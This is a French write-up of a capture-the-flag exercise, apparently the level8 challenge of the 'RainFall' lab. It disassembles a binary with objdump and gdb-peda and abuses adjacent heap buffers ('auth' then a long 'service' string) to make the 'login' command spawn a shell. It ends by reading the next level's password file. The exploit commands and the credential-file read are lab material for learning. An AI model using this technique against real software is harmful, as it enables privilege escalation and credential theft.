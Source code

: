## Démarches

- Avec `objdump -d level8` (ou `disass main` dans gdb) et `strings level8`, on peut décortiquer le fonctionnement du programme.
    ```
    %p, %p
    auth
    reset
    service
    login
    /bin/sh
    Password:
    ```
- Gdb-peda nous permet de connaitre l'adresse de l'appel à un nouveau shell :
    - `find "/bin/sh"`
    ```
    Searching for '/bin/sh' in: None ranges
    Found 3 results, display max 3 items:
    level8 : 0x8048833 ("/bin/sh")
    level8 : 0x8049833 ("/bin/sh")
    libc : 0xb7f8cc58 ("/bin/sh")
    ```
    - `objdump -d level8 | grep "0x8048833"`
        >       80486ee:	c7 04 24 33 88 04 08 	movl   $0x8048833,(%esp)

    - Dans gdb, on peut run le binaire (avec un breakpoint en début de main), et jump directement à l'adresse  de l'appel : `jump *0x80486ee`
    - On obtient bien un shell, reste à trouver comment y parvenir en dehors de gdb

- `objdump -d level8 | grep "cmp"`
    ```
    80485cf:	f3 a6                	repz cmpsb %es:(%edi),%ds:(%esi)
    8048656:	f3 a6                	repz cmpsb %es:(%edi),%ds:(%esi)
    804868c:	f3 a6                	repz cmpsb %es:(%edi),%ds:(%esi)
    80486c9:	f3 a6                	repz cmpsb %es:(%edi),%ds:(%esi)
    ```
    Dans gdb-peda, on ajoute un breakpoint pour chacune de ces comparaisons, on peut alors observer que chacune compare la chaine récupérée avec fgets avec :
      
    - `auth `
    - `reset`
    - `service`
    - `login`

- si la chaine commence par `auth `, la longueur du reste de la chaine est aussi comparée à `1e` soit 30, puis copiée dans `auth` si elle remplie les conditions
  >     8048625:	83 f8 1e             	cmp    $0x1e,%eax
  
- si la chaine est `login`, le programme teste si le 32ème (*0x20s*) caractère de `auth` est différent de `\0`
  >     => 0x80486e7 <main+387>:	mov    eax,DWORD PTR [eax+0x20] 
  Si c'est le cas, un nouveau shell est lancé, sinon le programme affiche `Password:`

- Le programme affichant les adresses des variables `auth` et `service`, on peut remarquer qu'elles se suivent sur la stack. On peut donc appeler *auth* puis remplir *service* d'au moins 32 caractères, et enfin lancer `login` qui accèdera au 32ème caractères de *auth* soit un caractères de la chaine *service* :
```
level8@RainFall:~$ ./level8
    (nil), (nil)
    auth
    0x804a008, (nil)
    service 12345678901234567890123456789012345
    0x804a008, 0x804a018
    login
    $ whoami
    level9
    $ pwd
    /home/user/level8
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    $
```


<br>
----
## Ressources
